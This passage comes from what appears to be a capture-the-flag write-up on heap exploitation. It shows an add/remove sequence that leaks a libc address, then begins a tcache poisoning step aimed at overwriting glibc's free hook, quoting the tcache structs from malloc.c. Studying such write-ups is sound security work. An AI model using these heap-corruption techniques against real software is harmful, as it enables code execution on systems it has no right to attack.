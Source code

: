 In this case it would try and print the contents of the address `0x000055c1d486ff00`, which would be the libc address `0x00007f4335a00031`. However since the output is printed using `puts` (which stops when it hits a null byte) and since the second byte of that address is a null byte, we wouldn't get the full libc address in this case.

With a bit of trial and error, I find that doing this combination of adding / removing will leak a libc address (this address points to a heap pointer):

```
add("0", "1")
add("2"*0x1000, "3"*0x1000)
add("3", "4")
add("3", "4")
add("3", "4")
add("3", "4")

#add("4", "5")

remove(5)
remove(4)
remove(3)
remove(2)
remove(0)

print hex(view(0))
```

With that we have our libc infoleak.

#### tcache posioning / free hook write

The second step to this exploit is writing over one of the free hooks via tcache posioning. First thing, when we look at the `malloc.c` source code (can be found here https://ftp.gnu.org/gnu/glibc/), we see the structs by a tcache bin (checkout http://eternal.red/2018/children_tcache-writeup-and-tcache-overview/ for more info on this attack):

```
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;

/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

```
